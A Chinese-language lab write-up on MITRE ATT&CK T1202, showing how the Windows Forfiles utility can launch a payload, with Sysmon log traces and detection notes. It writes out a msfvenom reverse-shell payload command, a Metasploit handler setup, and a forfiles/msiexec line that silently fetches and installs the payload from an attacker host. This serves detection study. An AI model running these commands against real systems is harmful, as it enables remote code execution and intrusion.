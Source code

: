 # T1202-win-基于白名单Forfiles执行payload

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

微软官方文档：

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)>

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

Windows 7 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.126.146 LPORT=8888 -f msi > abc.txt
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 8888
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"
```

#### 反弹shell

反弹shell失败！！！但不影响后续分析

## 测试留痕

```log
#sysmon日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:27:08.447
ProcessGuid: {bb1f7c32-2a5c-5e9b-0000-0010b3101d00}
ProcessId: 588
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: /q /i http://192.168.126.146/abc.txt
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020b86d0600}
LogonId: 0x66db8
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-2a5c-5e9b-0000-00100a101d00}
ParentProcessId: 1220
ParentImage: C:\Windows\System32\forfiles.exe
ParentCommandLine: forfiles  /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"


#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x4c4
新进程名: C:\Windows\System32\forfiles.exe
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件和/或生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 参考推荐

MITRE-ATT&CK-T1202

<https://attack.mitre.org/techniques/T1202/>

基于白名单Forfiles执行payload

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-84_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Forfiles%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%9B%9B%E5%AD%A3.md>

